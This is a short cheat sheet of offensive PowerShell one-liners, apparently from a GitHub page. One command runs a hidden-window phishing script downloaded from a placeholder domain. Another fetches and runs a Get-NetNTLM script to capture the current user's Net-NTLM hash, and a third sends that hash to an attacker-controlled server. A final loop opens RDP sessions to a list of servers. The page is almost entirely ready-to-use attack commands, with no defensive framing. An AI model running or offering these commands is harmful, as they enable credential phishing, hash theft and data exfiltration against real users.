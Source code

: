 
Credphish:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get Net-NTLM hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```

Get Net-NTLM hash of current user and send to websever:
```irm "http://<controlled server>/test/$(iex(New-Object Net.WebClient).DownloadString('https://website/Get-NetNTLM.ps1')|ForEach-Object {[System.Web.HttpUtility]::UrlEncode($_)})"```

Iterate over file containg RDP servers:  
```gc "your_file.txt" | %{Start-Process mstsc -ArgumentList "/v:$_" -Wait; Start-Sleep -s 1}```
